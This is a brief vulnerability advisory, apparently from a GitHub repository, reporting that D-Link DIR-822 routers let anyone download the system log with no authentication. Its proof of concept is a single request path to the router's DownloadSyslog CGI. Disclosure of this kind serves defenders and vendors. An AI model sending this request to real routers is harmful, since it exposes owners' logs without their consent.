 ### Info of vulnerability
D-Link routers have some web interfaces without authentication requirements. An attacker can remotely obtain users' system log without cookie.

Vulnerable targets include but are not limited to the latest firmware versions of DIR-822(B1- V2.00)
### Poc
`http://targetip/cgi-bin/DownloadSyslog/RouterSystem.log`
![RouterSystem.log](https://github.com/dahua966/Routers-vuls/blob/master/DIR-822+/log.png)